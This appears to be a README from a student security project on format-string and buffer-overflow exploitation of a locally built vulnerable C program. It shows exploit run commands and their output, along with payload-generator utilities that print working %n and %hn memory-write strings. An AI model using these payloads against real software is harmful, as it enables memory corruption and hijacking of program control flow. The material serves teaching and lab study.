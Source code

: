 # BIT semestral project

## DISCLAIMER

This repository is for educational and informational purposes **only**!

## Contents
```
\_ exploit.py              # overwrite return address
\_ exploit-flag.py         # leak flag
\_ exploit-overflow.py     # exploit 
\_ format_string.c
\_ images/
\_ Makefile
\_ utilities/
    \_ payload_offset.py
    \_ payload_read.py
    \_ payload_write.py
    \_ payload_write_short.py 
```

## Requirements

Tested with Python **3.10**, **3.11** \
Python libraries: **pwntools**

## Usage

[?] - usage\
[C] - command\
[>] - output

Clone repository:\
`https://github.com/Sofurs/bit-semestral-project.git`\
`cd bit-semestral-project`

Compile vulnerable program:\
`make`

Run exploits:
```
[C] ./exploit.py
[>] ������ffdb1d2c3e8
[>] Thisisfromanunreachablefunction!
```

```
[C] ./exploit-flag.py
[>] �WV
[>] SecretFlagForBIT
```

```
[C] ./exploit-overflow.py
[>] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThis is from an unreachable function!
```

Utility Functions:\

```c
[?] Usage: ./utilities/payload_offset.py {number of %x}
[C] ./utilities/payload_offset.py 5
[>] AAAABBBB %x %x %x %x %x %x 
```

```c
[?] Usage: ./utilities/payload_read.py {memory address} {format character} {offset}
[?] Address format: 0xXXXXXXXX
[?] Format character: %s/%c/%x/%d/...
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_read.py 0x41424344 %s 6
[>] DCBA%7$s
```

```c
[?] Usage: ./utilities/payload_write.py {memory address} {value to write} {offset}
[?] Address and value format: 0xXXXXXXXX
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_write.py 0x41424344 0x8040a020 6
[>] DCBAPADDECBAPADDFCBAPADDGCBA%08x%08x%08x%08x%08x%220x%n%128x%n%160x%n%64x%n
```

```c
[?] Usage: ./utilities/payload_write_short.py {memory address} {value to write} {offset}
[?] Address and value format: 0xXXXXXXXX
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_write_short.py 0x41424344 0x8040a020 6
[>] DCBAFCBA%40984x%7$hn%57376x%8$hn
```

## Format String

![Format string basics](images/format-string.png)

![Stack frame and format string read/write](images/format-string-rw.png)

![Format string read/write howto](images/format-string-detail-rw.png)
